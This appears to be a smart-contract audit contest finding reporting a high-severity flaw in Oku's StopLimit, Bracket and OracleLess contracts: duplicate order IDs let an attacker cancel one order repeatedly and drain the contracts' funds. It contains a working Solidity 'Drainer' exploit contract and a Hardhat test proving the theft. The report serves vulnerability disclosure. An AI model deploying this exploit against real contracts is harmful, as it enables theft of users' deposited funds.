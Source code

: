 Dancing Sage Terrier

High

# Exploiter will drain OracleLess/StopLimit/Bracket

### Summary

The missing check to see if same order exist before, can make it possible for a malicious user to create multiple orders in same block with same order id. This way there will be multiple entry of same orderId in pendingOrder array. And then he can cancel and receive value based on last order as multiple times, thus enabling him to drain all contracts.

StopLimit: https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/StopLimit.sol#L161
Bracket: https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/Bracket.sol#L197
OracleLess: https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L47


### Root Cause

There are two root causes, which causes this issue:
- First, it allows creation of multiple order with same orderId and them being added to pendingOrderId array
- Secondly, in cancel order function, it doesn't mark order as closed in mapping, instead relying on orderId being removed from pendingOrder array, which fails as mentioned in first part

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

If we assume there are 10k USD worth of single asset.
1. Attacker create order with minimum USD value of buy order needed, which can be assumed as 100 USD
2. Attacker make another transaction in same block to create another order but with 4950 USD amount value
3. Attacker cancel order first time receiving 4950 USD and then again cancel to again receiving 4950 USD

### Impact

Anyone can drain all the funds in `StopLimit` `BracketOrder` and `OracleLess`

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;


import "./automatedTrigger/OracleLess.sol";
import "./interfaces/openzeppelin/IERC20.sol";

contract Drainer {
    

    function drain(address oracleLess, address token) external {
        IERC20(token).approve(oracleLess, IERC20(token).balanceOf(address(this)));
        uint96 orderId = OracleLess(oracleLess).createOrder(
            IERC20(token), 
            IERC20(address(this)),
            1,
            0,
            address(this),
            0,
            false,
            ""
        );

        OracleLess(oracleLess).createOrder(
            IERC20(token), 
            IERC20(address(this)),
            IERC20(token).balanceOf(address(this)),
            0,
            address(this),
            0,
            false,
            ""
        );


        OracleLess(oracleLess).cancelOrder(orderId);
        OracleLess(oracleLess).cancelOrder(orderId);
    }
}
```
This contract is sample implementation of an attacker contract

Below is the test case with above contract

```javascript
  // High
  it("Multiple orders with same orderId can be added and then cancelled to drain funds", async () => {
    // Setup initial state

    const drainer = await ethers.deployContract("Drainer");

    await stealMoney(
      s.wethWhale,
      await drainer.getAddress(),
      await s.WETH.getAddress(),
      s.wethAmount + 1n
    );

    await stealMoney(
      s.wethWhale,
      await s.OracleLess.getAddress(),
      await s.WETH.getAddress(),
      s.wethAmount
    );

    // Verify initial contract balance
    const initialContractBalance = await s.WETH.balanceOf(
      await s.OracleLess.getAddress()
    );
    const drainerInitialBalance = await s.WETH.balanceOf(await drainer.getAddress());
    await drainer.drain(
      await s.OracleLess.getAddress(),
      await s.WETH.getAddress()
    );

    const drainerBalance = await s.WETH.balanceOf(await drainer.getAddress());

    // Verify contract balance is 0
    const finalContractBalance = await s.WETH.balanceOf(
      await s.OracleLess.getAddress()
    );
    expect(initialContractBalance - finalContractBalance).to.equal(
      drainerBalance - drainerInitialBalance,
      "Final contract balance"
    );
  });

```


### Mitigation

_No response_